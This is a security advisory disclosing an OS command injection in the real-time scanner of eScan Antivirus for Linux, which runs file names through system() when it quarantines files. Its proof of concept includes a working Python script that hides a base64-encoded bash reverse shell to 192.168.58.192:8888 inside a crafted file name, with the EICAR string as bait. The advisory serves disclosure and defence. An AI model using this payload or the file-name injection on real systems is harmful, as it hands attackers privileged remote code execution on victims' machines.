 # Description and Impact
Escan Antivirus for Linux has real-time protection program `rtscanner` run as system service. This program has a OS Command injection vulnerability in quarantine file mechanism. An attacker can send crafted file and gain remote code execution with highest privilege as soon as crafted file writes into victim's disk.

# Root-cause
1. `rtscanner` failed to quarantine a file that has name **>= 253** characters (max file name's length on Linux is 255). This program uses command `mv` to move file to quarantine folder.
2. `rtscanner` uses dangerous function `system` with unsanitized data.

![image_2025-01-18_11-08-53](https://github.com/user-attachments/assets/616d5977-31dd-4668-8ff1-478fde87d53e)


3. By default, `/tmp/` and `/home/` are being monitored

![image_2025-01-18_11-08-53 (2)](https://github.com/user-attachments/assets/32487a13-d54b-4cf1-8dd4-6b699b5a636f)


An attacker can send any malicious file with crafted file name. As soon as crafted file writes into these folders, quarantine mechanism executes and malicious code command is executed with system's privilege.

In demotration bellow, I sent compressed file that contains malicious file to victim's machine. By default, compressed files are not being scanned by real-time scanner. Malicious code executes as soon as user uncompress downloaded file.

![image_2025-01-18_11-08-53 (3)](https://github.com/user-attachments/assets/a824dc12-9007-40b3-aa92-f0c374f8aa7a)

*Important notes*:
- When decompress using `Extract here` feature, program `engrampa` extracts internal file into a folder if there's no folder. The format will be `<name of compressed file> <suffix>` where suffix is a number, like `(2)`, `(3)`. Meanwhile real-time scanner adds folder `<name of compressed file>` to **inotify**'s watch list. This is a logic bug in scanner's logic. Therefore, compressed file delivered to victim must contains internal folder that has the same name with zip file.
- Demotration shows malicious code execution when file is decompressed. In other attack scenarios, malicious code might be executed *as soon as crafted file is written into victim's system* without user's interactions.
- Servers that has file upload feature and eScan for Linux (configured to monitor uploaded files) are under great danger.

# Proof-of-concept
1. Create crafted file that executes bash redirection to make reverse shell. Python script:

```
MAX_LEN=253

# Payload to trigger reverse shell
# bash -c 'exec bash -i &>/dev/tcp/192.168.58.192/8888 <&1'
PAYLOAD=";echo YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTkyLjE2OC41OC4xOTIvODg4OCA8JjEnCg==|base64 -d|sh"
PREFIX="AA AA" # Doesn't really required. But it looks a little better
SUFFIX=" # "
CHUNK="A" * (MAX_LEN - len(PREFIX) - len(PAYLOAD) - len(SUFFIX))
NAME=PREFIX + PAYLOAD + SUFFIX + CHUNK

print("DEBUG: created file with len", len(NAME))

# Content to trigger quarantine action
CONTENT="X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"

with open("/tmp/" + NAME, "w") as f:
    f.write(CONTENT)
```

2. Create compressed zip file that contain crafted file and move it to web server.

![image_2025-01-18_11-08-53 (4)](https://github.com/user-attachments/assets/0b9913a1-6aed-4038-a6fc-dbc63584c3ae)

![image_2025-01-18_11-08-53 (5)](https://github.com/user-attachments/assets/8e4aeb59-6a4c-4bdb-b4f5-10044a3ed383)


Attacker creates a listener and wait victim's download malicious file.

![image_2025-01-18_11-08-53 (6)](https://github.com/user-attachments/assets/02f103a8-3af4-412b-bccd-7daf825b9617)

3. Victim downloads zip file then extract

![image_2025-01-18_11-08-53 (7)](https://github.com/user-attachments/assets/30af1e4f-b7fa-4957-9224-0f4cb984b497)

![image_2025-01-18_11-08-53 (8)](https://github.com/user-attachments/assets/f7d942b0-ce28-4c72-9171-d5fd372b593d)


4. Attacker gains remote code execution

![image_2025-01-18_11-08-53 (9)](https://github.com/user-attachments/assets/25db100b-906b-4b5c-a1cb-1d3247b01893)

![image_2025-01-18_11-08-53 (10)](https://github.com/user-attachments/assets/5f63a189-b819-4119-a87a-98e625762f3d)


*Important note*: If crafted file is quarantined, change `MAX_LEN` in python script to 255.
